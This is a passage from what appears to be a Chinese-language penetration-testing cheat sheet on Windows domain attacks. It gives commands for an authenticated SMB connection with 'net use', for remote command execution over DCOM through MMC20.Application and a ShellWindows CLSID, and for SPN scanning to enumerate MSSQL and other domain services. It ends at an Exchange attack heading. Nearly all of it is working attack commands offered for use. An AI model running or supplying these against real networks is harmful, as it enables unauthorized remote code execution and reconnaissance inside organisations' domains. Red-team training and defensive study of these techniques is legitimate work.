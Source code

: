 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>net use \\IP "password" /user:pentest.hacker\win7user<br>``` |

#### [](#%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)执行命令

##### [](#%E8%B0%83%E7%94%A8-mmc20_application-%E8%BF%9C%E7%A8%8B%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)调用 MMC20\_Application 远程执行命令

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>$com=[Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IP"))<br>$com.Document.ActiveView.ExecuteShellCommand("cmd.exe","0","/c calc.exe","Minimzed")<br>``` |

#### [](#%E8%B0%83%E7%94%A8-9ba05972-f6a8-11cf-a442-00a0c90a8f39)调用 9BA05972-F6A8-11CF-A442-00A0C90A8F39

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```powershell<br>$com=[Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"IP")<br>$obj=[System.Activator]::CreateInstance($com)<br>$item=$obj.item()<br>$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32","$null",0)<br>``` |

## [](#spn-%E5%9C%A8%E5%9F%9F%E7%8E%AF%E5%A2%83%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8)SPN 在域环境中的使用

### [](#spn-%E6%89%AB%E6%8F%8F)SPN 扫描

PowerShell-AD-Recon

#### [](#%E5%88%A9%E7%94%A8-spn-%E5%8F%91%E7%8E%B0%E5%9F%9F%E4%B8%AD%E6%89%80%E6%9C%89%E7%9A%84-mssql-%E6%9C%8D%E5%8A%A1)利用 SPN 发现域中所有的 MSSQL 服务

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>Import-Module .\Discover-PSMSSQLServer.ps1<br>Discover-PSMSSQLServers<br>``` |

#### [](#%E6%89%AB%E6%8F%8F%E5%9F%9F%E4%B8%AD%E6%89%80%E6%9C%89%E7%9A%84-spn-%E4%BF%A1%E6%81%AF)扫描域中所有的 SPN 信息

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>Import-Module .\Discover-PSInterestingServices.ps1<br>Discover-PSInterestingServices<br>``` |

在不使用第三方 Powershell 脚本的情况下，输入如下命令查询所有的 SPN 信息

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>setspn -T domain -q */*<br>``` |

### [](#exchange-%E9%82%AE%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%94%BB%E5%87%BB)Exchange 邮件服务器攻击
